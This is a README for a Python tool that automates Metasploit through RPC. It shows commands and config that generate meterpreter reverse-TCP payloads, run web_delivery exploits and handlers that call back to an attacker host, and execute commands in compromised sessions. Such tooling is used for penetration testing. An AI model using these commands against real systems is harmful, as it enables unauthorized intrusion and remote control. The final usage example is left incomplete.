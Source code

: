 # Metasploit RPC Automation Tool

This Python script is designed to interact with the Metasploit Framework using the `pymetasploit3` library, allowing for automation of tasks such as running exploits, polling jobs and sessions, accessing sessions, and generating payloads using `msfvenom`.

## Features

- **Run any Metasploit module:** Execute exploits, payloads, or any module and get the output.
- **Poll active jobs:** List all currently active jobs in the Metasploit instance.
- **Poll active sessions:** List all currently active sessions.
- **Access a session and run a command:** Interact with an active Metasploit session and run commands inside it.
- **Generate payloads using msfvenom:** Create payloads in various formats with `msfvenom`.

## Requirements

- Python 3.x
- Metasploit installed and configured
- `pymetasploit3` library for interacting with the Metasploit RPC server
- `configparser` for managing configuration settings
- `argparse` for parsing command-line arguments

## Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/your-repo/metasploit-rpc-tool.git
    ```

2. Install the required dependencies:

    ```bash
    pip install pymetasploit3
    ```

3. Ensure that your Metasploit instance is running, and the Metasploit RPC server is enabled.

4. Configure the `config.ini` file (see below).

## Configuration

The tool reads the default configurations from a `config.ini` file. An example `config.ini` is provided below.

### Example `config.ini`:

```ini
[default]
# Global default settings for RPC connection
msf_password = msfrpc
rpc_server = 127.0.0.1
rpc_port = 55552
rpc_ssl = False

# Default regex for filtering exploit output
regex = Run the following command on the target machine:\n(.*)

[run_module]
# Default options for running Metasploit modules
module = exploit/multi/script/web_delivery
option1 = LHOST=192.168.1.100
option2 = LPORT=4444
regex = Run the following command on the target machine:\n(.*)

[poll_jobs]
# No additional settings needed for polling jobs

[poll_sessions]
# No additional settings needed for polling sessions

[run_command]
session_id = 1
session_command = sysinfo

[generate_payload]
format = exe
payload = windows/meterpreter/reverse_tcp
lhost = 192.168.1.100
lport = 4444
output_file = /tmp/payload.exe
```

## Usage

### General Structure

```bash
python ryotenkai.py <command> [options]
```

### Commands

- **`run_module`**: Runs a specified Metasploit module and retrieves the output.

    ```bash
    python ryotenkai.py run_module <module_name> --option OPTION1=VALUE --option OPTION2=VALUE --regex <regex_pattern>
    ```

    Example:

    ```bash
    python ryotenkai.py run_module multi/handler \
    --option 'PAYLOAD linux/x64/meterpreter/reverse_tcp \
    --option 'LHOST 10.192.0.3' \
    --option 'LPORT 12344' \
    --option 'ExitOnSession false' \
    --msf-password msfrpc \
    --rpc-port 55556 \
    --rpc-server 10.192.0.3 \
    --rpc-ssl

    ```

- **`get_jobs`**: Polls for active Metasploit jobs.

    ```bash
    python3 ryotenkai.py get_jobs
    ```

- **`get_sessions`**: Polls for active Metasploit sessions.

    ```bash
    python3 ryotenkai.py get_sessions
    ```

- **`run_command`**: Accesses a Metasploit session and runs a command within the session.

    ```bash
    python3 ryotenkai.py run_command <session_id> <command>
    ```

    Example:

    ```bash
    python3 ryotenkai.py run_command 1 sysinfo
    ```

- **`generate_payload`**: Generates a payload using `msfvenom`.

    ```bash
    python3 ryotenkai.py generate_payload <format> <payload> <lhost> <lport> <output_file>
    ```

    Example:

    ```bash
    python3 ryotenkai.py generate_payload exe windows/meterpreter/reverse_tcp 192.168.1.100 4444 /tmp/payload.exe
    ```

### Configuration Overrides

Command-line arguments provided when running the tool will override values in the `config.ini` file. For example:

```bash
python ryotenkai.py run_module exploit/multi/script/web_delivery \
--option 'LHOST 192.168.1.50' 
--option 'LPORT 8080'
```

Will override the `LHOST` and `LPORT` values set in `config.ini`.

## Logging

The script uses Python's logging module to provide detailed information about the operations being performed. The log level is set to `INFO` by default but can be adjusted within the script for more verbose output.


## Example Usage Case
1. Create your config.ini
2. Run the following command to generate an elf payload
```bash
python3 ryotenkai.py generate_payload elf linux/x64/meterpreter/reverse_tcp payload.sh 
```
3. 

## License

This project is licensed under the MIT License. See the LICENSE file for more information.
